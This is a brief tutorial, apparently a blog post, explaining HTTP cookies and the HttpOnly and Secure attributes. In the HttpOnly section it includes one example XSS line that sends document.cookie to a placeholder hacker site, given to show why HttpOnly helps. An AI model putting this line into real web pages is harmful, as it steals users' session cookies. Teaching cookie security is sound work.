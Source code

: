 ## **🍪 HTTP Cookie?**

An **HTTP cookie** (web cookie, browser cookie) is a small piece of data that a server sends to a user's web browser. The browser may store the cookie and send it back to the same server with later requests.

You can add Set-Cookie attribute on response header to make it.

```
Set-Cookie: <cookie-name>=<cookie-value>
```

## **🍪 Why do we use Cookie?**

Using connectionless and stateless HTTP protocol, the server had to identify each client.

Typically, an HTTP cookie is used to tell if two requests come from the same browser—keeping a user logged in, for example. It remembers stateful information for the [stateless](https://developer.mozilla.org/en-US/docs/Web/HTTP/Overview#http_is_stateless_but_not_sessionless) HTTP protocol.

Without storing stateful information on the browser as cookie, session, or else, the user has to log in whenever accessing pages that needs to log in.

## **🍪 HTTP Only Cookie**

Since cookie can be viewed in client side via Javascript, it is not quite safe from attacks like `XSS(Cross Site Scripting)`. If you access below URL, you're cookies will all be sent to the hacker😈

```js
location.href = "http://해커사이트/?cookies=" + document.cookie;
```

To prevent this problem, we can restrict the browser from accessing cookie, with HTTP Only Cookie. Simply add `HttpOnly` postfix.

```
Set-Cookie: yummy_cookie=choco; path=/; HttpOnly
```

## **🍪 Secure Cookie**

Cookie can also be intercepted on network. Add `Secure` postfix to enable secure cookie only sent to the server with an encrypted request over the HTTPS protocol.

```
Set-Cookie: id=a3fWa; Expires=Thu, 21 Oct 2021 07:28:00 GMT; Secure; HttpOnly
```

## **🍪 Ref**

- [https://ledgku.tistory.com/72](https://ledgku.tistory.com/72)
- [https://developer.mozilla.org/ko/docs/Web/HTTP/Cookies](https://developer.mozilla.org/ko/docs/Web/HTTP/Cookies)
- [https://nsinc.tistory.com/121](https://nsinc.tistory.com/121)
